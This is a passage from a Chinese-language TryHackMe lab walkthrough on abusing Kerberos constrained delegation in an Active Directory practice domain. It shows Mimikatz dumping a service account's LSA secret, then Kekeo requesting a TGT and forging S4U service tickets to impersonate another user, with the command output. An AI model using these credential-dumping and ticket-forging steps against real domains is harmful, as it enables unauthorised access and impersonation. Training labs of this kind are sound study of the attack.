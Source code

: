 ```shell title="Command Prompt"
old/text: redacted

Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: redacted
```

让我们来运行这两个命令：

- `token::elevate` - 为了从注册表中 dump 出秘密，我们需要冒充 SYSTEM 用户。
- `lsadump::secrets` - Mimikatz 与注册表进行交互以提取明文凭据。

现在我们可以访问与 svcIIS 账户关联的密码，我们可以执行 Kerberos 委派攻击。我们将使用 [Kekeo](https://github.com/gentilkiwi/kekeo) 和 [Mimikatz](https://github.com/gentilkiwi/mimikatz) 的组合。你可以在 Mimikatz 中使用另一个窗口，但确保在 token::elevate 命令之后退出 Mimikatz，否则后续加载的票证会在错误的上下文中。我们将使用 Kekeo 生成我们的票证，然后使用 Mimikatz 将这些票证加载到内存中。让我们首先生成票证：

```shell title="Command Prompt"
PS C:\> C:\Tools\kekeo\x64\kekeo.exe

  ___ _    kekeo 2.1 (x64) built on Dec 14 2021 11:51:55
 /   ('>-"A La Vie, A L'Amour"
 | K  |    /* * *
 \____/     Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
  L\_       https://blog.gentilkiwi.com/kekeo                (oe.eo)
                                             with 10 modules * * */

kekeo #
```

首先，我们需要生成一个 TGT，用于生成 HTTP 和 WSMAN 服务的票证：

```shell title="Kekeo"
kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted
Realm        : za.tryhackme.loc (za)
User         : svcIIS (svcIIS)
CName        : svcIIS   [KRB_NT_PRINCIPAL (1)]
SName        : krbtgt/za.tryhackme.loc  [KRB_NT_SRV_INST (2)]
Need PAC     : Yes
Auth mode    : ENCRYPTION KEY 23 (rc4_hmac_nt): 43460d636f269c709b20049cee36ae7a
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 172.31.1.101 (auto)
  > Ticket in file 'TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```

参数解释：

- `user` - 具有受限委派权限的用户。
- `domain` - 我们正在攻击的域，因为 Kekeo 可以用来伪造票证以滥用跨域信任。
- `password` - 与 svcIIS 账户相关联的密码。

现在我们有了可以执行委派的账户的 TGT，我们可以伪造 TGS 请求以冒充我们想要模拟的账户。我们需要为 HTTP 和 WSMAN 都执行这个操作，以允许我们在 THMSERVER1 上创建一个 PSSession：

```shell title="Kekeo"
kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
Ticket  : TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
  [krb-cred]     S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
  [krb-cred]     E: [00000012] aes256_hmac
  [enc-krb-cred] P: svcIIS @ ZA.TRYHACKME.LOC
  [enc-krb-cred] S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
  [enc-krb-cred] T: [4/30/2022 1:29:00 PM ; 4/30/2022 11:29:00 PM] {R:5/7/2022 1:29:00 PM}
  [enc-krb-cred] F: [40e10000] name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
  [enc-krb-cred] K: ENCRYPTION KEY 18 (aes256_hmac      ): 548e500d4ee2f5c61710254ea9dd43e2ce0123026d329c97e512695e2f1777a7
  [s4u2self] t1_trevor.jones
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 172.31.1.101 (auto)
```

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami